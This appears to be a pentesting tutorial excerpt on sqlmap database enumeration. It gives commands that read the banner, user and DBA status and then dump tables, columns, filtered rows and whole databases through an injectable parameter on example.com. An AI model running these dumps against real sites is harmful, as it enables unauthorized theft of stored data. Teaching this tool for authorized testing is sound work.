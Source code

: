 
## Basic DB Data Enumeration

Enumeration usually starts with the retrieval of the basic information:

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

```shell-session

sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

## Table Enumeration

```shell-session

sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

```shell-session

sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

## Table/Row Enumeration
Columns:
```shell-session

sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```
Rows:
```shell-session

sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

## Conditional Enumeration

```shell-session

sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

## Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

